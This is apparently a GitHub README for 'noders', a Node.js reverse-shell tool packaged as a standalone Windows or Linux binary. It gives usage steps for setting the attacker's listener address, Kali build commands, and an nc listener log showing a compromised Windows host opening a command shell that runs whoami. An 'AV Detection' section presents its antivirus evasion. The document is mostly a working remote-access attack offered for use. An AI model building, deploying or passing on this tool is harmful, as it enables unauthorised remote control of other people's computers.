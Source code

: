 # noders

portable node.js reverse shell using https://github.com/zeit/pkg 

**Usage**

- Update noders.js source listener ip,port, binary (cmd.exe, /bin/sh, etc).
- Compile using pkg to target platform https://github.com/zeit/pkg#targets

Setup
```
root@kali:/opt/noders# npm install -g pkg
root@kali:/opt/noders# pkg -t win noders.js
> pkg@4.4.0
> Fetching base Node.js binaries to PKG_CACHE_PATH
  fetched-v10.15.3-win-x64     [====================] 100%
  fetched-v10.15.3-linux-x64   [====================] 100%
root@kali:/opt/noders# ls
noders.exe  noders.js
```
Listener
```
root@kali:~# nc -lvp 8080
listening on [any] 8080 ...
192.168.116.173: inverse host lookup failed: Unknown host
connect to [192.168.116.200] from (UNKNOWN) [192.168.116.173] 50053
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\IEUser\Desktop>whoami
whoami
msedgewin10\ieuser

```

**AV Detection**

<img width="1317" alt="Screenshot 2019-11-23 at 21 30 06 2" src="https://user-images.githubusercontent.com/56988989/69485670-9e015180-0e3a-11ea-95c4-5a9b2dd88f24.png">

**Limitations**

Portable binary size is at least 30MB. 
